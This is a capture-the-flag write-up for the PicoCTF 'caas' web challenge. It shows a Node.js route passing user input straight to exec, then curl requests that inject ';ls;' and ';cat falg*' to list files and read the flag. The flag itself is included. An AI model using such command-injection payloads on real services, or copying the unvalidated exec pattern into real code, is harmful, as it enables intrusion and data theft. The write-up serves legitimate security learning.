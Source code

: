 ```yaml
---
title: PicoCTF - caas
date: Wed Jul  5 11:40:45 PM +04 2023
categories: [Writeup]
tags: [ctf,picoctf,picomini,redpwn,web]
---
```


### Description

AUTHOR:  BROWNIEINMOTION

Now presenting  [cowsay as a service](https://caas.mars.picoctf.net/)

Download [index.js](https://artifacts.picoctf.net/picoMini+by+redpwn/Web+Exploitation/caas/index.js)

### Solution

The code on frontend isn't interesting as it's simply making request to backend.

```js
(async () => {
  await new Promise(r => window.addEventListener('load', r));
  document.querySelector('code').textContent =
    `${window.origin}/cowsay/{message}`;
})();
```

Point of interest is the given backend index.js

```js
app.get('/cowsay/:message', (req, res) => {
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
    if (error) return res.status(500).end();
    res.type('txt').send(stdout).end();
  });
});
```

There's no validation of `message` and it gets directly passed to `exec`

[child_process.exec(command\[, options\]\[, callback\]\)](https://nodejs.org/api/child_process.html#child_processexeccommand-options-callback): <br>_Spawns a shell then executes the `command` within that shell, buffering any generated output_

That means we are executing `/usr/games/cowsay ${req.params.message}` in the shell. `cowsay` doesn't have exploits for RCE, even if it did it would be overkill. We can just supply another command to be ran with exec. Using `;` we can seperate commands, let's test it.

```powershell
➜ curl "https://caas.mars.picoctf.net/cowsay/0w0;ls;"
 _____
< 0w0 >
 -----
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
Dockerfile
falg.txt
index.js
node_modules
package.json
public
yarn.lock

➜ curl "https://caas.mars.picoctf.net/cowsay/0w0;cat%20falg*"
 _____
< 0w0 >
 -----
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}
```

> Flag: picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}
{: .prompt-tip }

> You can't use space character without encoding, %20 is URL encoded space character.
{: .prompt-info }